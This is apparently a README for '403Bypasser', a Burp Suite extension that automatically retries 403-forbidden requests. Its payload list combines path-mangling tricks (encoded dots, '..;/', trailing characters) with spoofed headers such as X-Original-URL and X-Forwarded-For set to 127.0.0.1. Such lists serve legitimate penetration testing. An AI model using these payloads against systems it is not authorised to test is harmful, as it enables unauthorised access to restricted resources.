

# 403Bypasser
An burpsuite extension to bypass 403 restricted directory. By using PassiveScan (default enabled), each 403 request will be **automatically** scanned by this extension, so just add to burpsuite and enjoy.

Payloads: 
$1: HOSTNAME
$2: PATH
```
$1/$2
$1/%2e/$2
$1/$2/.
$1//$2//
$1/./$2/./
$1/$2anything -H "X-Original-URL: /$2" 
$1/$2 -H "X-Custom-IP-Authorization: 127.0.0.1" 
$1 -H "X-Rewrite-URL: /$2"
$1/$2 -H "Referer: /$2"
$1/$2 -H "X-Originating-IP: 127.0.0.1"
$1/$2 -H "X-Forwarded-For: 127.0.0.1"
$1/$2 -H "X-Remote-IP: 127.0.0.1"
$1/$2 -H "X-Client-IP: 127.0.0.1"
$1/$2 -H "X-Host: 127.0.0.1"
$1/$2 -H "X-Forwared-Host: 127.0.0.1"
$1/$2%20/
$1/%20$2%20/
$1/$2?
$1/$2???
$1/$2//
$1/$2/
$1/$2/.randomstring
$1/$2..;/
```

__Thanks [@lohubi](https://github.com/lobuhi) for contributing many payloads.__

## Installation

`BurpSuite -> Extender -> Extensions -> Add -> Extension Type: Python -> Select file: 403bypasser.py -> Next till Finish`

## Screenshot


## References:
* [https://twitter.com/iam_j0ker/status/1324354024657711106?s=20](https://twitter.com/iam_j0ker/status/1324354024657711106?s=20)
* [https://twitter.com/jae_hak99/status/1297556269960540161?s=20](https://twitter.com/jae_hak99/status/1297556269960540161?s=20)
* [https://twitter.com/SalahHasoneh1/status/1296572143141031945](https://twitter.com/SalahHasoneh1/status/1296572143141031945)
* [https://twitter.com/lobuhisec/status/1329705441883017218](https://twitter.com/lobuhisec/status/1329705441883017218)
